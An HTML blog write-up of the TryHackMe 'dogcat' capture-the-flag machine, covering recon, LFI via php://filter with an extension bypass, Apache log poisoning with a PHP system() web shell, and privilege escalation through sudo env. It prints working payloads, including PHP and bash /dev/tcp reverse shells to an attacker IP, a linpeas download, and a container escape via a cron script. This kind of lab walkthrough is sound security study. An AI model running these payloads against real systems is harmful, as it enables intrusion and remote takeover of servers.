<html><head>
<style>
    body {
        font-family: Arial, sans-serif;
        max-width: 800px;
        margin: 0 auto;
        padding: 20px;
        line-height: 1.6;
        background-color: #f4f4f4;
    }
    h1, h2, h3 {
        color: #333;
        border-bottom: 2px solid #ddd;
        padding-bottom: 10px;
        margin-bottom: 20px;
    }
    p {
        margin-bottom: 20px;
    }
    img {
        max-width: 100%;
        height: auto;
        display: block;
        margin: 0 auto 20px auto;
    }
    code {
        background-color: #f9f9f9;
        border: 1px solid #ccc;
        padding: 5px;
        border-radius: 5px;
    }
    pre {
        background-color: #333;
        color: #f8f8f2;
        padding: 10px;
        border-radius: 5px;
        overflow-x: auto;
    }
</style>
</head><body><p>Hi everyone, today I would like to analyze the machine called <code>dogcat</code> on TryHackMe platform. </p>

<p>Let me add my ipv4 address to <code>/etc/hosts</code> file.</p>

<p></p>

<h2>Reconnaissance</h2>

<p>I prefer to divide <code>recon</code> phase into two sub category. I will respectively apply both manual &amp; automated reconnaissance in advance.</p>

<ul>
<li>Manual </li>
<li>Automated</li>
</ul>

<h3>Manual Reconnaissance:</h3>

<p>Without using any tool, we can conduct a scan just by taking advantage of the browser. Furthermore, <code>curl</code> also suitable for diverse HTTP methods plus direct port queries.</p>

<p>
As you can see, you should always modify the <code>http://</code> part of the url in every time since every time browser redirects the client to the <code>https</code> protocol working on <code>443</code>.</p>

<p></p>

<p>In order to verify both the web app instance and web server type, I will check for both web application instance and its type at once through the browser. In this scenario, <code>Apache</code> has been used to make live our application. To understand it, using <code>http</code> with port <code>8080</code> (default Apache port number) is compatible right now.</p>

<ul>
<li>By requesting through <code>curl</code>, we can reach the same result.</li>
</ul>

<p>```</p>

<h1>Testing port 80</h1>

<p>curl http://dogcat.thm:80</p>

<h1>Testing port 8080</h1>

<p>curl http://dogcat.thm:8080
```</p>

<p></p>

<p>Furthermore, you can also get <code>HTTP header</code> info through <code>-I</code> option.</p>

<p><code>
curl -I http://dogcat.thm:80/8080
</code></p>

<p></p>

<p>Time reduction is crucial aspect for offensive security operations ,so before you move on conducting port scans via <code>nmap</code>. I highly recommend you to take action on manual part.</p>

<p>Let's check what we have:
</p>

<p><code>Image generation</code> web application, without the usage of any <code>persistent storage (Database)</code>. After clicking any image, I recognized that we can temper end point parameter just by giving unusual parameter or trigger <code>LFI</code> or <code>RFI</code>. I intentionally tried to click <code>dog</code> button then try to move parent directory using <code>../</code>.</p>

<p></p>

<p>Now let's execute it on browser's URL part:</p>

<p></p>

<p>As you can see here, the behavior of the web app altered, normally it should not render upper directory by default. We just delete the <code>?view=</code> part and reach default page. </p>

<p>Anyway, let me also use automated scan.</p>

<h3>Automating</h3>

<p>Nmap provides significant evidence to our roadmap in every CTF session ,but in this scenario I assumed that I should directly get initial compromise on web app.</p>

<p>Payload:
<code>
sudo nmap -sV -sC dogcat.thm
</code></p>

<p></p>

<p>Payload:
<code>
sudo nmap -sV -sC -p- dogcat.thm
</code>
</p>

<p>Additionally, I wanted to intercept the <code>view</code> parameter ,so maybe I can trigger <code>path traversal</code> then move on <code>LFI</code>. Let me use a <code>HackTricks</code></p>

<p><a href="https://book.hacktricks.xyz/pentesting-web/file-inclusion">HackTricks - File Inclusion</a></p>

<p></p>

<p>As you can see below, there was not such file located on correlated path:</p>

<p></p>

<p>I understood the occurrence of the <code>path traversal</code> since I was able to try to show specific path, <code>../../../../var/www/html/config.php</code> ,but the application behaved in a different manner. In contrast, it applied some additions on last part of the path's ending part.</p>

<p></p>

<p>To get the idea behind the application (backend), I used really unique file name called <code>ErkanUcar</code>. As you can see above, it is clear that application intended to make file extension addition on any file. In this scenario it applied <code>.php</code>. Maybe there should also a method for escaping <code>.php</code> extension. From that idea, having a bright understanding about <code>LFI</code> is possible. Moreover, the error message genuinely explains whether we have <code>LFI</code> or not. In every attempt, it was executing file + <code>.php</code> extension. </p>

<p>Thanks to <code>Medium</code> known as article publication platform, I easily found what I need especially escaping restrictions on <code>LFI</code>. </p>

<p></p>

<p>It suggests that If we apply <code>NullByte - %00</code> on last part where url was located, we can directly bypass restriction. On this concept, he or she did not use the advantage of null byte. </p>

<p>Let me apply it:</p>

<p>Payload:</p>

<p><code>
cat/../../../../etc/erkanucar%00
</code></p>

<p></p>

<p>In every attempt that I made restricted by web application because it was clear that using <code>whitelist</code> approach on words like <code>cat</code> or <code>dog</code> prevents users to inject <code>LFI</code> payload. We can still traverse ,but not execute something useful <code>php</code> file. Furthermore, web application technology is playing crucial role in such cases. Therefore, I checked the web application technology that is used by our instance using <code>wappalyzer</code> and <code>whatweb</code>.</p>

<h3>Whatweb Output:</h3>

<p></p>

<p>Payload:
<code>whatweb dogcat.thm</code></p>

<h3>Wappalyzer Output:</h3>

<p></p>

<p>I deliberately gave two approach to fulfill the same result with <code>different tools</code>. Lastly, having a strong foundation on web application fuzzing is necessary in order to discovery phase. In my scenario, since I found <code>LFI</code> vulnerability directly. I would like to reach other endpoints of the web application to increase the efficiency of my <code>LFI</code>.</p>

<h3>Dirsearch Output:</h3>

<p>Payload:</p>

<p><code>
dirsearch -u http://dogcat.thm
</code></p>

<p></p>

<p>I only got <code>/flag.php</code> path seems to more weird. Why I need to name my <code>php</code> application as flag :)</p>

<h3>Dirb Output:</h3>

<p></p>

<p>After I make my fuzzing operation, I decided to move on <code>flag.php</code> path. However, it did not render something. Moreover, it was identical that I found another endpoint on <code>view?=dog</code> parameter resulted in <code>Burpsuite Repeater</code></p>

<p></p>

<p>Now, I will discover them manually. Still I could not reach any useful paths. Now, I prefer to use <a href="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion#wrapper-phpfilter">PayloadAllTheThings</a> repo in order to understand what can I achieve on <code>PHP filters</code>.</p>

<p>
It was not too complicated to use <code>php://filter</code> ,but we should give the endpoint direction through our <code>resource=</code> part as a payload. Th
erefore, let me use filters in a legit way.</p>

<p><code>
http://dogcat.thm/?view=php://filter/convert.base64-encode/resource=dog
</code></p>

<p></p>

<p>From my point of view, the application encodes the dog.php via <code>Base64</code> then prompts out the file content. Now it works !</p>

<p>I also wanted to decode it with <code>cyberchef tool</code> to understand what exactly it does.</p>

<p><code>
PGltZyBzcmM9ImRvZ3MvPD9waHAgZWNobyByYW5kKDEsIDEwKTsgPz4uanBnIiAvPg0K
</code></p>

<p></p>

<p>First of all, <code>PHP</code> code generated numbers from <code>1 to 10</code> then it concatenates generated number with <code>.jpg</code> extension. As you know, we are in the path where it is in the child directory of root. Let's move on <code>index</code> part.</p>

<p></p>

<p>Extracting <code>index</code> file will be magnificent to understand the entire structure of our web application especially for the backend part.</p>

<p><code>base64</code> encoded server-side file is such:
<code>dogcat.thm/?view=php://filter/convert.base64-encode/resource=dog/../index</code></p>

<p>After you reach the page you will encounter a huge formatted random string:
</p>

<p>You can directly extract from browser's rendered html section. This was what I have extracted so far !</p>

<p></p>

<p>As a software developer, I thought that  what actions should I take on the backend code on <code>server-side</code>.</p>

<p>Using variable without conditional statements or sanitization mainly causes vulnerability especially in <code>php</code>. That's why, I can tamper the <code>$ext</code> variable so as to modify file extension of the file. I have already verified the usage of <code>php://filter</code> feature then it worked !</p>

<p>Now let me also use variable as a parameter on this scenario:</p>

<p><code>
http://dogcat.thm/?view=php://filter/convert.base64-encode/resource=dog/../../../../etc/passwd&amp;ext
</code>
Applying <code>php://filter</code> bypasses <code>cat</code> , <code>dog</code> string and path direction filters ,but not the extension itself. Moreover, <code>null byte</code> also did not work as you know because of the path restrictions. Therefore, it is suitable to use <code>$ext</code> to bypass extension append. To pass multiple parameters in each URL, we should use <code>&amp;</code> parameter. Now let's try to move our target route called <code>/etc/passwd</code>.</p>

<p></p>

<p></p>

<p>Now we are ready to reach flag ! ! !
As far as I remember, we have also <code>SSH</code> port open. That's why, I will try to use unshadow through <code>/etc/passwd</code> and <code>/etc/shadow</code>. Although I successfully reached the <code>/etc/passwd</code> file, there was not any <code>/etc/shadow</code> file located on that path ,so let me try to open <code>flag.php</code> with <code>php filter base64</code> conversion.</p>

<p><code>
http://dogcat.thm/?view=php://filter/convert.base64-encode/resource=dog/../flag&amp;ext=.php
</code></p>

<p>Passing extensions through the <code>$ext</code> variable may give the result for all files.</p>

<p></p>

<p><code>View Page Source</code> option allows us to directly the encoded source file. 
</p>

<p>Finding any clues about <code>flag2</code> was significantly tough process for me. However, further <em>reconnaissance</em> always works in <code>Offensive Security</code>. As you know, I have already checked web server version (Apache 2) that we are using. Let's verify the path the default logs stored on web server.</p>

<p></p>

<p>Let me try also the <code>/var/log/apache2/access.log</code> file to achieve further enumeration.</p>

<p></p>

<p>Decoded format:
</p>

<p>The application directly gets our user agent as above. After a couple of minutes, I thought that in HackTheBox platform I saw an approach a machine called <code>Headless</code> which was very useful especially to execute commands through on User Agent part.</p>

<p></p>

<p>This is what front-end renders at the same time:
</p>

<p>Burpsuite gave me better result. Let me try to user-agent manipulation because  if we can somehow execute php's <code>system();</code> command it will also execute on main php file. After I execute such a command:</p>

<p><code>
&lt;?php system("ls")?&gt;
</code></p>

<p>I was no longer access <code>access.log</code> file because of the default <code>Apache2</code> configuration. Using web shell can be suitable for our condition <code>&amp;cmd='ls' or ?cmd='ls'</code>. I thought this idea from a <a href="https://www.reddit.com/r/AskNetsec/comments/8ckbc7/executing_a_php_script_a_reverse_shell_by_calling/">Reddit post</a>
describing our situation.</p>

<p></p>

<p>Before I began, adding our php command on User-Agent would be suitable. Let's try all our sources:</p>

<p>Now I verified that I could run command remotely by using such payload:</p>

<p><code>
User-Agent: &lt;?php system('ls'); ?&gt;
</code></p>

<h3>Note: Do not forget to finish your method with ; in every php function.</h3>

<p></p>

<p>Furthermore, user-agent did not work more than once. Switch on <code>GET</code> method to get reverse shell.</p>

<p><code>
system(GET['cmd']);
</code></p>

<p>To retrieve cmd on PHP just passing <code>&amp;cmd</code> is enough to get <code>$cmd</code> parameter from url because we are gonna apply also URL encoding to make our payload working. In my first attempt, <code>User-Agent</code> was blocked by application in second time. Now <code>URL encoding</code> was useful in that concept. <code>cmd</code> parameter also dynamically stores the payload value which is <code>whoami</code> command to guarantee PoC:</p>

<p>Payload (Encoded):
```
// Retrieve cmd variable by using GET super-global array then gets value from url.
<?php system($_GET['cmd']); ?></p>

<p>// Give whatever you want like erkanucar, serkangenc, cuneytsevgi and so on</p>

<p>// Encoded Format:
%3C%3Fphp%20system%28%24_GET%5B%27cmd%27%5D%29%3B%20%3F%3E
```</p>

<p></p>

<h3>PoC for user:</h3>

<p></p>

<p>Let's embed our reverse shell:</p>

<p>```
php -r '$sock=fsockopen("10.11.69.113", 1984);exec("/bin/bash -i &lt;&amp;3 &gt;&amp;3 2>&amp;3");'</p>

<p>// encoded:
php%20-r%20%27%24sock%3Dfsockopen%28%2210.11.69.113%22%2C%201984%29%3Bexec%28%22%2Fbin%2Fbash%20-i%20%3C%263%20%3E%263%202%3E%263%22%29%3B%27
```</p>

<p>After tampering couple of times on encoding parts especially for reverse shell payload. I recognized that you just need to encode <code>reverse shell payload</code>. Finally, I got my <code>reverse shell</code>:</p>

<p></p>

<h3>Flag2: (/var/www/)</h3>

<p></p>

<p>You can easily reach out the second <code>flag</code> from here.</p>

<h3>Flag3: (Privilege Escalation - Binary Exploitation (env))</h3>

<p></p>

<p>By default I applied <a href="https://gtfobins.github.io/gtfobins/env/">GFTObins</a> mentality then check for <code>binaries</code> that I can run. Prompt told me that you are ready to run <code>env</code> binary with <code>sudo</code> privilege. That's all !</p>

<p>Payload that you need to use in below:</p>

<p><code>
sudo env /bin/sh
</code></p>

<p></p>

<p>Now as a result, we really <strong>Get The Fuck Out The Binary</strong> :)</p>

<p></p>

<p>Last flag located on <code>root</code> directory:</p>

<p></p>

<h3>Flag4 (linpeas.sh &amp; Container Escape)</h3>

<p>I deployed a python server using below command:</p>

<p><code>
python3 -m http.server 3131
</code></p>

<p>After that I checked whether I have <code>curl</code> or not:</p>

<p><code>
which curl
</code></p>

<p>Lastly, download <code>linpeas.sh</code> from your local:</p>

<p><code>
curl -O http://10.11.69.113:3131/linpeas.sh
</code></p>

<p>Give execution permission:</p>

<p><code>
chmod +x linpeas.sh
</code></p>

<p>Fire !</p>

<p><code>
./linpeas.sh
</code></p>

<p></p>

<p>Thx Carlos :)</p>

<p>I recognized that I was in <code>Docker Container</code> and there was just only one way to get rid of container which is <code>VM escape</code>.</p>

<p></p>

<p>
I was able to apply <code>release_agent 1</code> ,but I never tried instead I found different and weird path with <code>.sh</code> script.</p>

<p></p>

<p>Let me move on here:</p>

<p></p>

<p>Unfortunately, I did not have any text editor (<code>nano</code> or <code>vim</code>)</p>

<p></p>

<p>We should get rid of the VM. In this step we have only one way to <code>escape</code> through the <code>root</code> of the container. Get your <code>bash</code> <a href="https://tex2e.github.io/reverse-shell-generator/index.html">reverse shell</a> :</p>

<p><code>
echo "bash -i &gt;&amp; /dev/tcp/10.11.69.113/2323 0&gt;&amp;1" &gt;&gt; backup.sh
</code></p>

<p>It was too weird ,but in my initial execution of <code>backup.sh</code> was successful. However, I got a shell which was not like a escaped root shell.</p>

<p></p>

<p>It worked in my second attempt then gave me another shell, real root user :D</p>

<p></p>
</body></html>